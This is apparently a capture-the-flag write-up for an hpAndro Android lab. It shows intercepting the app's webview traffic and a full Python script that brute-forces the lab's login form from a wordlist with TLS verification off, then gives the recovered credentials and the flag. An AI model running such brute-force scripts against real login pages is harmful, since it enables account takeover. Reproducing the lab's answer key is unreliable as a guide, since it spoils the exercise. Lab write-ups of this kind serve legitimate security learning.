 The task provided a web view of a webpage within the app, with obvious hints indicating that the solution involves investigating the local storage of the website.

## Step 1: Intercepting the Webpage Link

To access the webpage in a browser, I used HTTP Toolkit to capture the network traffic from the app and locate the webpage link. This led me to the following URL:

**URL: http://hpandro.raviramesh.info/bf.php**

![image](1.png)

## Step 2: Writing the bruteforce script

```
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

url = "https://hpandro.raviramesh.info/web/password-bruteforce.android"
username = "admin"
wordlist_path = "wordlist.txt"

headers = {
    "Host": "hpandro.raviramesh.info",
    "Cookie": "_gid=GA1.2.1420009170.1730369303; _ga_M1DY5F8QNF=GS1.1.1730465114.8.0.1730465114.60.0.0; _ga=GA1.2.231762434.1730369303; PHPSESSID=5s8evrmc4nhc6uvucu4bqdicvo",
    "Pragma": "no-cache",
    "Cache-Control": "no-cache",
    "Sec-Ch-Ua": '"Chromium";v="124", "Android WebView";v="124", "Not-A.Brand";v="99"',
    "Sec-Ch-Ua-Mobile": "?1",
    "Sec-Ch-Ua-Platform": "Android",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "https://hpandro.raviramesh.info",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "hpandro.android.security",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "X-Requested-With": "hpandro.android.security",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-User": "?1",
    "Sec-Fetch-Dest": "document",
    "Referer": "https://hpandro.raviramesh.info/web/password-bruteforce.android",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Priority": "u=0, i",
    "Connection": "keep-alive",
}

def attempt_password(password):
    data = {
        "name": username,
        "password": password.strip(),
    }
    
    try:
        response = requests.post(url, headers=headers, data=data, verify=False)
        if response.status_code == 200:
            print(f"Attempt with password '{password.strip()}' returned status code {response.status_code}.")
            if "Try" not in response.text:
                print("Request Sent: ", data)
                print("Response Recieved: \n", response.text)
                return True
    except requests.exceptions.RequestException as e:
        print(f"Error sending request with password '{password}': {e}")
    return False

def bruteforce_passwords():
    with open(wordlist_path, "r") as file:
        for password in file:
            if attempt_password(password):
                break

if __name__ == "__main__":
    bruteforce_passwords()
```

On running this script for a while, we get the username as **"admin"** and password as **"hacker"**.

![image](2.png)

## Flag
The flag is given when you give the right username and password:

**Flag - hpandro{Brute.zf7zoSEUxvXQVfkCOolSx1gtRCAApNwE} **

